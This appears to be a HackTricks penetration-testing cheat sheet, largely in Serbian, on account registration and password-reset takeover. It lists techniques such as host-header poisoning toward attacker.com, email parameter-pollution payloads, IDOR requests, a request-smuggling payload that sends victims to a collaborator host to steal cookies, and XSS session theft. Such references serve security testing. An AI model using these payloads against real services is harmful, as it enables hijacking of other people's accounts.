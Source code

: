 # Registration & Takeover Vulnerabilities

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Registration Takeover

### Duplicate Registration

* Pokušajte da generišete koristeći postojeće korisničko ime
* Proverite varijacije email-a:
* velika slova
* \+1@
* dodajte tačku u email
* specijalni karakteri u imenu email-a (%00, %09, %20)
* Stavite crne karaktere posle email-a: `test@test.com a`
* victim@gmail.com@attacker.com
* victim@attacker.com@gmail.com

### Username Enumeration

Proverite da li možete da otkrijete kada je korisničko ime već registrovano unutar aplikacije.

### Password Policy

Kreirajući korisnika, proverite politiku lozinki (proverite da li možete koristiti slabe lozinke).\
U tom slučaju možete pokušati da bruteforce-ujete akreditive.

### SQL Injection

[**Check this page** ](sql-injection/#insert-statement)da naučite kako da pokušate preuzimanje naloga ili izvučete informacije putem **SQL Injections** u registracionim formama.

### Oauth Takeovers

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### SAML Vulnerabilities

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### Change Email

Kada se registrujete, pokušajte da promenite email i proverite da li je ova promena ispravno validirana ili možete promeniti na proizvoljne email adrese.

### More Checks

* Proverite da li možete koristiti **disposable emails**
* **Duga** **lozinka** (>200) dovodi do **DoS**
* **Proverite ograničenja brzine prilikom kreiranja naloga**
* Koristite username@**burp\_collab**.net i analizirajte **callback**

## **Password Reset Takeover**

### Password Reset Token Leak Via Referrer <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Zatražite resetovanje lozinke na vašu email adresu
2. Kliknite na link za resetovanje lozinke
3. Ne menjajte lozinku
4. Kliknite na bilo koje 3rd party sajtove (npr: Facebook, twitter)
5. Presretnite zahtev u Burp Suite proxy
6. Proverite da li referer header otkriva token za resetovanje lozinke.

### Password Reset Poisoning <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Presretnite zahtev za resetovanje lozinke u Burp Suite
2. Dodajte ili izmenite sledeće header-e u Burp Suite : `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Prosledite zahtev sa izmenjenim header-om\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Potražite URL za resetovanje lozinke na osnovu _host header-a_ kao što je : `https://attacker.com/reset-password.php?token=TOKEN`

### Password Reset Via Email Parameter <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR na API parametrima <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Napadač mora da se prijavi sa svojim nalogom i ode na funkciju **Promena lozinke**.
2. Pokrenite Burp Suite i presretnite zahtev.
3. Pošaljite ga na repeater tab i izmenite parametre: ID korisnika/email\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Slab Token za Resetovanje Lozinke <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Token za resetovanje lozinke treba da bude nasumično generisan i jedinstven svaki put.\
Pokušajte da odredite da li token ističe ili je uvek isti, u nekim slučajevima algoritam generacije je slab i može se pogoditi. Sledeće varijable mogu biti korišćene od strane algoritma.

* Vreme
* ID korisnika
* Email korisnika
* Ime i Prezime
* Datum rođenja
* Kriptografija
* Samo brojevi
* Mala sekvenca tokena (karakteri između \[A-Z,a-z,0-9])
* Ponovna upotreba tokena
* Datum isteka tokena

### Curjenje Tokena za Resetovanje Lozinke <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Pokrenite zahtev za resetovanje lozinke koristeći API/UI za specifičan email npr: test@mail.com
2. Istražite odgovor servera i proverite za `resetToken`
3. Zatim koristite token u URL-u kao `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Resetovanje Lozinke Putem Kolizije Korisničkog Imena <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Registrujte se na sistem sa korisničkim imenom identičnim korisničkom imenu žrtve, ali sa razmacima umetnutim pre i/ili posle korisničkog imena. npr: `"admin "`
2. Zatražite resetovanje lozinke sa svojim zlonamernim korisničkim imenom.
3. Iskoristite token poslat na vaš email i resetujte lozinku žrtve.
4. Prijavite se na nalog žrtve sa novom lozinkom.

Platforma CTFd je bila ranjiva na ovaj napad.\
Pogledajte: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Preuzimanje Naloga Putem Cross Site Scripting-a <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Pronađite XSS unutar aplikacije ili poddomena ako su kolačići ograničeni na roditeljski domen: `*.domain.com`
2. Icurite trenutni **kolačić sesije**
3. Autentifikujte se kao korisnik koristeći kolačić

### Preuzimanje Naloga Putem HTTP Request Smuggling-a <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Koristite **smuggler** da detektujete tip HTTP Request Smuggling-a (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Kreirajte zahtev koji će prepisati `POST / HTTP/1.1` sa sledećim podacima:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` sa ciljem da otvorite preusmeravanje žrtava na burpcollab i ukradete njihove kolačiće\
3\. Finalni zahtev može izgledati ovako
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone izveštaji o eksploataciji ovog buga\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Preuzimanje naloga putem CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Kreirajte payload za CSRF, npr: “HTML forma sa automatskim slanjem za promenu lozinke”
2. Pošaljite payload

### Preuzimanje naloga putem JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token može se koristiti za autentifikaciju korisnika.

* Izmenite JWT sa drugim ID-jem korisnika / Email-om
* Proverite slabu JWT potpis

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## Reference

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)


{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
